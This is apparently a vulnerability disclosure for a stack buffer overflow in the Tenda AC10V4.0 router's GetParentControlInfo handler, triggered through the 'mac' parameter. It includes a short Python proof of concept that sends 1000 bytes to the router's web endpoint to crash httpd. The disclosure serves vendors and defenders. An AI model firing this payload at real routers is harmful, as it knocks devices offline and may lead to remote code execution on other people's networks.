 # Tenda AC10V4.0 were discovered to contain a stack overflow via the mac parameter in the GetParentControlInfo function.

> vendor:Tenda
>
> product:AC10V4
>
> version:US_AC10V4.0si_V16.03.10.13_cn_TDC01
>
> type:Stack Overflow  

## Vulnerability Description

Tenda AC10V4.0 si_V16.03.10.13_cn_TDC01 were discovered to contain a stack overflow via the mac parameter in the GetParentControlInfo function.

## Vulnerability Details

In function GetParentControlInfo line 35, it reads in a user-provided parameter, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](.\src0.jpg)

## Recurring vulnerabilities and POC

Run poc and you will see process httpd crash, segmentation fault.

```
import requests
    
host = "192.168.59.136:80"
cy = b'a'*1000
def exploit_GetParentControlInfo():
    url = f"http://{host}/goform/GetParentControlInfo"
    data = {
        b'mac':cy
    }
    res = requests.post(url=url,data=data)
    print(res.content)
exploit_GetParentControlInfo()
```

![](.\src1.jpg)
